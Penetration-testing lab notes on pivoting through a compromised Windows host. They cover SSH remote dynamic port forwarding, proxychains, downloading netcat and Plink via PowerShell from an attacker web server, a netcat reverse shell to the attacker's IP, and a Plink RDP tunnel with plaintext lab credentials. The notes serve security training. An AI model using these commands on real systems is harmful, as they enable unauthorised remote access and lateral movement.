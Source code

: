 Example:
	- ```creating a remote dynamic port forward from MULTISERVER03 (a Windows machine) to our Kali machine. In this scenario, only the RDP port is open on MULTISERVER03. We can RDP in, but we can't bind any other ports to the WAN interface. Once we have our lab set up, it should appear as so:```

![[Pasted image 20240121195125.png]]

- Start SSH server
	- ```sudo systemctl start ssh```
- RDP into MULTISERVER03
	- ```xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64```
- Determine if SSH is on the box
	- ```where ssh```
- Determin SSH version
	- ```ssh.exe -V```
	- OpenSSH version bundled with Winows is > 7.6
		- can use it for remote dynamic port forwarding
- create remote dynamic port forward to Kali machine
	- ```ssh -N -R 9998 tristan@192.168.45.187```
- confirm
	- ```ss -ntplu```
- update proxychain config
	- ```socks5 127.0.0.1 9998```
- connect to PostgreSQL server
	- ```proxychains psql -h 10.4.50.215 -U postgres```

### Plink
	-in case there is no OpenSSH client
	- CLI Putty
	- rarely flagged
	- does not have remote dynamic port forwarding

![[Pasted image 20240123210855.png]]

	-MULTISERVER03 is already "pre-compromised" in the lab. Already has webshell on :80

- Example:
	- host Apache2 on Kali to download nc.exe on MULTISERVER03
		- ```sudo systemctl start apache2```
	- find **nc.exe** from our Kali **windows-resources/binaries** directory and copy it to the Apache2 web root.
		- ```find / -name nc.exe 2>/dev/null```
		- ```sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/```
	- use a _PowerShell_ _wget_ one-liner from the web shell to download **nc.exe** from out Kali
		- ```powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe```
	- start listener
		- ```nc -lvnp 4446```
	- from windows tgt, execute nc and throw shell
		- ```C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.187 4446```
	- download Plink to MULTISERVER03
		- ```find / -name plink.exe 2>/dev/null```
		- ```sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/```
	- use the PowerShell one-liner to download **plink.exe** from our Kali
		- ```powershell wget -Uri http://192.168.45.187/plink.exe -OutFile C:\Windows\Temp\plink.exe```
	- set up Plink with a remote port forward so that we can access the MULTISERVER03 RDP port from our Kali
		- ```C:\Windows\Temp\plink.exe -ssh -l kali -pw $FEbruary1496$ -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.187```
				- [This might log our Kali password somewhere undesirable! If we're in a hostile network, we may wish to create a port-forwarding only user on our Kali machine for remote port forwarding situations.]
			- After the **-R** option, we'll pass the socket we want to open on the Kali SSH server, and the RDP server port on the loopback interface of MULTISERVER03 that we want to forward packets to.
			- -l = username
			- -pw = password